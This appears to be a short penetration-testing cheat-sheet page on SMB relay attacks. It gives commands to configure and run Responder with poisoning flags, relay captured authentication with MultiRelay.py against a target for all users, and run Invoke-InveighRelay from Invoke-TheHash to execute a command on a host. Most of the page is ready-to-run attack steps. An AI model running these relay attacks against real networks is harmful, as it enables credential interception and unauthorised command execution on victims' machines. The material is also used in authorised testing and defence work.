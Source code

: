 # SMB Relay

### MultiRelay.py

For SMB Relay to be possible, you must turn off SMB and HTTP within the responder config file (you can change it back when you have finished)

Set responder.conf to:

![](<../../../.gitbook/assets/image (5) (1).png>)

Then run responder:

```
Responder -i xxx.xxx.xxx.xxx -I eth0 -f -b -w
```

Then run the following in another terminal session

```
/usr/share/responder/tools/MultiRelay.py -t <target_IP> -u ALL
```

### Inveigh Relay

Session attack requires SMB tools from Invoke-TheHash

{% embed url="https://github.com/Kevin-Robertson/Invoke-TheHash" %}

```
Invoke-InveighRelay -ConsoleOutput Y -Target 10.0.2.110 -Command "...."
```

